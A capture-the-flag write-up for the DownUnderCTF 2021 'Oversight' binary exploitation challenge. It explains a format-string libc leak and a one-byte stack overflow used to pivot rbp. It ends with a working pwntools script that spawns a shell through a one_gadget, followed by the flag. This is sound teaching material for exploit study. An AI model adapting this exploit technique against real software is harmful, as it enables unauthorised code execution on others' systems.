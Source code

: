 # Oversight

![](/2021/DownUnderCTF2021/Oversight/images/1.png)

Challenge give me ELF file oversight and libc-2.27.so

![](/2021/DownUnderCTF2021/Oversight/images/2.png)

Let reverse it

![](/2021/DownUnderCTF2021/Oversight/images/3.png)

The main function, do nothing but call `wait()`

![](/2021/DownUnderCTF2021/Oversight/images/4.png)

`wait()` function, get 5 byte of us, convert to num and leak the stack base address. The format string vul is converted to only leak, no overwrite. 

![](/2021/DownUnderCTF2021/Oversight/images/5.png)

`introduce()` do nothing

![](/2021/DownUnderCTF2021/Oversight/images/6.png)

`Get_num_bytes()` function, read 4 byte input and convert to num, compare with 0x100, I have checked the interger overflow (-1) and it can not bypass.

![](/2021/DownUnderCTF2021/Oversight/images/7.png)

Echo function create array length 256 and call `echo_innert()`

![](/2021/DownUnderCTF2021/Oversight/images/8.png)

The last function is `echo_inner()`, and luckily, we found the bug

A1 is the address of v2 array, with locate in stack frame of echo function, a2 is the size we input in get_num_bytes function, the max size we can choose is 256, and instruction a1[256] = 0 will cause one byte overflow on echo function. The v2 array located at rbp-0x100, so a1[256] is the lowest byte of rbp, and we can change it to \x00.

If you haved solved some one byte overflow challenge before, you will know that change the last byte of rbp to \x00 will let you control the return address if 2 instruction leave, ret call 2 times. And the address we control is in the v2 array.

It happen because the instruction `leave` is the compare of 2 instruction `mov rsp, rbp` and `pop rbp`.

For example, let look the stack before the `fread()` call in echo_inner

![](/2021/DownUnderCTF2021/Oversight/images/9.png)

The white part is the array v2 in `echo`, the rbp of `echo_inner` is 0x7fffffffdca0 and the rbp of `echo` is 0x00007fffffffdda0. 

Notice that we are in the echo_inner function now, but the array causing the overflow is in the `echo` function, and the rbp we overwrite is the echo’s rbp at 0x00007fffffffdda0.

Oke, see what happen if we input which 256 ‘A’

![](/2021/DownUnderCTF2021/Oversight/images/10.png)

You can see that last byte at 0x00007fffffffdda0 change to \x00 and now rbp point to somewhere on v2 array (with we can control data on it)

Continue to the return of `echo`, after `leave` instructions

![](/2021/DownUnderCTF2021/Oversight/images/11.png)

Rbp now point to 0x7fffffffdd00, and rsp is 0x7fffffffdda8, is the return address to `get_num_bytes` funtions, ret instruction call and we go back to `get_num_bytes`.

At `get_num_bytes` function, we call `leave, ret`, which `mov rsp, rbp`, `pop rbp` and `ret`

The rbp is 0x7fffffffdd00 so the stack will 0x7fffffffdd00 same, and after `pop rbp`, the stack now located at 0x7fffffffdd08, and the value after 0x7fffffffdd08 will our rop chain.

See the stack for more understand

![](/2021/DownUnderCTF2021/Oversight/images/12.png)

What we push in the white part will be our rop chain.

## What we can do?

  - We can leak one address on the stack using format string. Since the ELF enable PIE, we have 2 base need leak. We can leak PIE and recall main to leak libc base. But in this challenge, we only need to leak libc base.

  - We will leak libc base at the return address of main, the value is `<__libc_start_main + 231>` , it depend on version libc they gived (2.27).

![](/2021/DownUnderCTF2021/Oversight/images/13.png)

## Final exploit

  - We will use the format string to leak the return address of main, with have offset 27, calculate the base address of libc by minus 0x21bf7.

  - We push the ROP to the right placement on v2.

  - We will use one byte overflow to control the rbp to return to our ROPchain.


There is a small problem here, although the last 1.5 bytes of the stack address are fixed, it depends on the environment variables. For example, an application running at `/home/cobra/Desktop/` and an application running at `/home/cobra/Desktop/DuCTF/` will have a different stack address, although the last 1.5 bytes it will not change each run time. So if you want to use a full rop chain like `pop_rdi, /bin/sh, system`. You'll need to bruteforce a little bit to get the correct placement in the v2. Because the stack while running on remote server will be different in environment variables than running locally. But at this challange, I use one_gadget so no need to bruteforce.

![](/2021/DownUnderCTF2021/Oversight/images/14.png)

We have 3 one_gadget, I used the first gadget, because it so hard to control value [rsp + 0x70] or [rsp + 0x30]. The condition rsp & 0xf == 0 is always true, because we have overwrite rbp == 0, then pop rbp, and ret will pop rsp 2 time, so it meets the condition. Register rcx == 0 will also always succeed, when calling printf() it calls the instructions mov rcx, rax and since eax has been xor before, rcx will be assigned = 0 after printf execution, i don’t know why printf need that instruction LOL.

![](/2021/DownUnderCTF2021/Oversight/images/15.png)

So we have all thing to have a payload, just fill 256 byte of v2 by 32 address of one_gadget

File [solve.py](/2021/DownUnderCTF2021/Oversight/solve.py)

```python
from pwn import *
s = remote('pwn-2021.duc.tf', 31909)
#s = process('./oversight')
#raw_input('DEBUG')
s.sendline(b'')
s.sendlineafter(b'Pick a number: ', b'27')
s.recvuntil(b'is: ')
libc_start_main_leak = int(s.recvline().strip().decode('utf-8'), 16)
print(hex(libc_start_main_leak))
'''
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
'''
libc_base = libc_start_main_leak - 0x0000000000021bf7
one_gadget = libc_base + 0x4f3d5
print(hex(libc_base))
print(hex(one_gadget))
s.sendlineafter(b'(max 256)? ', b'256')
payload = p64(one_gadget) * 32
s.sendline(payload)
s.interactive()
```

![](/2021/DownUnderCTF2021/Oversight/images/16.png)

`flag: DUCTF{1_sm@LL_0ver5ight=0v3rFLOW}`


